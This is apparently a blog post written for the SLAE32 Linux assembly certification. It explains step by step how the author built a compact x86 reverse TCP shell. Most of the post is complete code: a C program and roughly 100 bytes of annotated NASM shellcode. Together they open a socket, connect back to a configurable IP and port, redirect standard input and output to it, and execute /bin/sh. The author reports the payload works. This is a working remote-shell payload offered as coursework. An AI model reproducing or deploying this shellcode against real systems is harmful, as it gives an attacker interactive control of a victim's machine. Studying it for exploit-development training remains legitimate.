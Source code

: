 ```yaml
---
layout: page
title: SLAE32 Assignment 2
---
```


<div class="well" markdown="1">
<h2>SLAE32 Assignment 2: Reverse TCP Shell</h2>

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1009

The second assignment is to create a reverse tcp shell, with a configurable IP and port. In the first assignment, I opted for features over brevity. In this case, I aim to make the shellcode as short as possible.

Based on the [last assignment](/SLAE32/slae32-assignment1), one important structure that I will need is the `sockaddr_in` struct. The first byte will again be a 2, the second byte will be 0, the next two bytes will be the port, the next four bytes will be the IP address, then there will be 8 null bytes. This is what will get passed to the connect system call. Of course, I wanted to verify this as well as find the socketcall number, so again I created a C program to perform the reverse shell.

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>
#include <arpa/inet.h>
#include <unistd.h>

int main(){
	char *execargs[] = {"/bin//sh", 0};
	struct sockaddr_in sa;
	sa.sin_family = AF_INET;
	sa.sin_addr.s_addr = inet_addr("127.0.0.1");
	sa.sin_port = htons(9999);
	int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
	connect(sock, (const struct sockaddr *) &sa, 16);
	dup2(sock,0);
	dup2(sock,1);
	dup2(sock,2);
	execve(execargs[0], execargs, 0);
}
```

Running it through gdb as before shows that the socketcall number is 3. This can be confirmed by looking at /usr/include/linux/net.h

```
#define SYS_CONNECT     3               /* sys_connect(2)               */
```
Based on this information, as well as what was learned in the first assignment, I was able to write the assembly code. For whatever reason, this one took a lot more debugging. In any case, here is the assembly file, with copious comments to explain each step.

```nasm
; Filename: shell_bind_fork_tcp.nasm
; Author:  Mark Shaneck
; Website:  http://markshaneck.com
;
; Purpose: The purpose of this shellcode connect back
; to a host and port of our choosing

global _start

section .text
_start:

	; First things first, call socket
	; need to call socketcall with args 1, and domain (2), type (1), protocol(6)
	push byte 6 ; protocol = IPPROTO_TCP
	push byte 1 ; type = SOCK_STREAM
	push byte 2 ; domain = AF_INET
	xor eax, eax
	mov al, 102 ; syscall - socketcall
	xor ebx,ebx
	mov bl, 1   ; socket sockcall type
	mov ecx, esp ; pointer to the args
	int 0x80

	; eax now contains the socket file descriptor

	; let's dup the stdio FDs
	pop ecx ; we are going to loop from 2 to 0, and 2 happens to be on the top of the stack
	mov ebx,eax ; put socket file descriptor in ebx
dup:
	mov al, 63 ; dup2 syscall
	int 0x80
	dec ecx
	cmp cl,0xff
	jne dup

	; now we call connect
	; we need the socket file descriptor, a pointer to the sockaddr structure and a 16
	; perform a jmp-call-pop to get the port number so that it is easily configurable
	jmp short get_sockaddr

got_sockaddr:
	pop ecx               ; put address of sockaddr struct into ecx
	mov edx,[ecx+2]
	push edx              ; push the ip address next
	mov dx, word [ecx]    ; put the port into ebx
	shl edx,16            ; move the port number to the higher order bytes
	add dl,2              ; put the socket family in there
	push edx

	mov edx, esp ; now ebx has the address of the sockaddr_in struct
	push byte 0x10
	push edx
	push ebx
	mov ecx, esp
	xor ebx,ebx
	mov bl, 3   ; connect sockcall type
	mov al, 102 ; syscall - socketcall
	int 0x80

	; we should now be connected

	; execve the shell using stack method
	; let's execute sh
	xor eax,eax
	push eax
	push 0x68732f2f
	push 0x6e69622f

	mov ebx,esp ; pointer to "/bin//sh"
	push eax
	mov edx,esp ; env pointer (NULL)

	push ebx
	mov ecx,esp ; pointer to [pointer to "/bin//sh", 0]

	mov al, 11 ; execve syscall
	int 0x80

get_sockaddr:
	call got_sockaddr
	sockaddr: db 0x27, 0x0f, 0x7f, 0x00, 0x00, 0x01
	; should we worry about the nulls in the ip addr?
```

Compiling and pasting the shellcode into the shellcode stub resulted in a functioning reverse tcp shell.

{% include image name="functional_shellcode.png" width="100%" %}

Total shellcode length was exactly 100 bytes, which was an improvement from my initial straightforward attempt, which was somewhere around 120 bytes. I tried to break the arbitrary 100 byte boundary, but I ran out of way to shorten it any further. I could probably save a few more bytes by placing the ip address and port in the middle of the program and not using the jmp-call-pop technique to get its location, but I wanted to leave that in for ease of configuration.

Some of the improvements I made in this shellcode, as compared to assignment 1, aside from extra features, was pushing hardcoded bytes onto the stack directly, instead of loading them into registers and pushing those. The other major improvement I made to save some space was to rearrange the functions. Namely, putting `dup2` just after `socket` allowed for reuse of some registers, as the values were already in them.
